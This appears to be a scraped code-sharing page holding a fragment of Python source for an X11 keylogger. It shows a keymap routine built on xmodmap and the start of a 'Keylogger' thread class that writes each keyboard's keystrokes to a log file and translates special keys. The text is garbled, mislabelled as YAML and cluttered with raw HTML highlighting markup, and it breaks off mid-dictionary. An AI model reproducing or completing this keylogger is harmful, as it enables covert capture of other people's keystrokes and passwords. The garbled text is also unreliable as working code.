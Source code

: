 ```yaml
    <span style="color: #ff7700;font-weight:bold;">return</span> key_char
    &nbsp;
    <span style="color: #ff7700;font-weight:bold;">def</span> _get_keymap<span style="color: black;">&#40;</span><span style="color: #008000;">self</span><span style="color: black;">&#41;</span>:
    keymap <span style="color: #66cc66;">=</span> <span style="color: black;">&#123;</span><span style="color: black;">&#125;</span>
    table <span style="color: #66cc66;">=</span> bash.<span style="color: black;">xmodmap</span><span style="color: black;">&#40;</span><span style="color: #483d8b;">&quot;-pke&quot;</span><span style="color: black;">&#41;</span>
    <span style="color: #ff7700;font-weight:bold;">for</span> line <span style="color: #ff7700;font-weight:bold;">in</span> table:
    match <span style="color: #66cc66;">=</span> KEYCODE_REGEX.<span style="color: black;">match</span><span style="color: black;">&#40;</span>line<span style="color: black;">&#41;</span>
    <span style="color: #ff7700;font-weight:bold;">if</span> match <span style="color: #ff7700;font-weight:bold;">and</span> match.<span style="color: black;">groups</span><span style="color: black;">&#40;</span><span style="color: black;">&#41;</span><span style="color: black;">&#91;</span><span style="color: #ff4500;">1</span><span style="color: black;">&#93;</span>:
    keycode <span style="color: #66cc66;">=</span> match.<span style="color: black;">groups</span><span style="color: black;">&#40;</span><span style="color: black;">&#41;</span><span style="color: black;">&#91;</span><span style="color: #ff4500;">0</span><span style="color: black;">&#93;</span>
    key_chars_group <span style="color: #66cc66;">=</span> match.<span style="color: black;">groups</span><span style="color: black;">&#40;</span><span style="color: black;">&#41;</span><span style="color: black;">&#91;</span><span style="color: #ff4500;">1</span><span style="color: black;">&#93;</span>.<span style="color: black;">split</span><span style="color: black;">&#40;</span><span style="color: black;">&#41;</span>
    key_main_char <span style="color: #66cc66;">=</span> key_chars_group<span style="color: black;">&#91;</span><span style="color: #ff4500;">0</span><span style="color: black;">&#93;</span>
    keymap<span style="color: black;">&#91;</span>keycode<span style="color: black;">&#93;</span> <span style="color: #66cc66;">=</span> <span style="color: #008000;">self</span>._sanitize<span style="color: black;">&#40;</span>key_main_char<span style="color: black;">&#41;</span>
    <span style="color: #ff7700;font-weight:bold;">return</span> keymap</pre></td></tr></table><p class="theCode" style="display:none;">class Keylogger(Thread):
    &quot;&quot;&quot;Keylogger for a single keyboard&quot;&quot;&quot;
    def __init__(self, keyboard):
    Thread.__init__(self)
    self._keyboard = keyboard
    self._filename = 'keyboard%d.log' % self._keyboard
    self._file = open(self._filename, 'w+')
    self.__define_constants()
    
    def __del__(self):
    self.__exit__()
    
    def __exit__(self):
    self._file.close()
    
    def run(self):
    self._log()
    
    def __define_constants(self):
    self._special_chars = {
    'space': ' ',
    'apostrophe': &quot;'&quot;,
    'BackSpace': ' (Backspace) ',
    'Return': ' \n',
    'period': '.',
    'Shift_L1': ' (Shift1) ',
    'Shift_L2': ' (Shift2) ',
    'Control_L': ' (ControlL) ',
    'ccedilla': 'ç',
    'backslash': '\\',
    'dead_tilde': '~',
    'Shift_L': ' (ShiftL) ',
```